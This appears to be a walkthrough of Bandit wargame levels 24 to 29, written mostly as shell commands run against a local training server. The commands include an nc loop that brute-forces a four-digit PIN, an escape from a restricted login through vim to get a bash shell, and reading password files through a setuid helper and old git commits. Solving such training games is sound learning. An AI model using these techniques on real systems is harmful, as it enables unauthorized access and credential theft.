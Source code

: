 ## level 24

```sh
bandit24 = `cat /etc/bandit_pass/bandit24`
for i in {1000..9999}; do echo $bandit24 $i | nc localhost 30002 >> results & done
cat results | sort | uniq
```

## level 25

```sh
ssh -i bandit26.sshkey bandit26@localhost # in a tiny window
v # launcehes vim
:set shell=/bin/bash
:shell
cat /etc/bandit_pass/bandit26
```

## level 26

```sh
./bandit27-do cat /etc/bandit_pass/bandit27
```

## level 27

```sh
mkdir /tmp/27git && cd /tmp/27git
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
cat repo/README
```

## level 28

```sh
mkdir /tmp/28git && cd /tmp/28git
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
cd repo
git log
git checkout 196c3edc79e362fe89e0d75cfeef079d8c67beef
cat README.md
```

## level 29

```sh
mkdir /tmp/29git && cd /tmp/29git
git clone ssh://bandit29-git@localhost/home/bandit29-git/repo
cd repo
git branch -a
git checkout dev
cat README.md
```
